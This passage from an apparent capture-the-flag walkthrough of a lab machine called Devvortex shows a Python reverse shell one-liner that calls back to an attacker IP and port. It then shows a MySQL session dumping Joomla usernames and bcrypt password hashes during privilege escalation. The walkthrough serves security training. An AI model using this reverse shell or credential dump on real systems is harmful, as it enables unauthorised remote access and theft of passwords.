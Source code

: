 ![ce](8.png)

Now we setup a listener and run the following python reverse shell.

```python
export RHOST="10.10.16.24";export RPORT=9002;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![prs](9.png)

Great! We got a shell.

## **Privilege Escalation**

### www-data -> logan

Checking the home page we find there is only one user on the system and his name is `logan`.

Tried changing to him using `lewis`'s password but didn't work.

#### Mysql

Let's connect to `mysql` database and see what we can find.

```terminal
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ mysql -u lewis -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 55
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)

mysql> 
```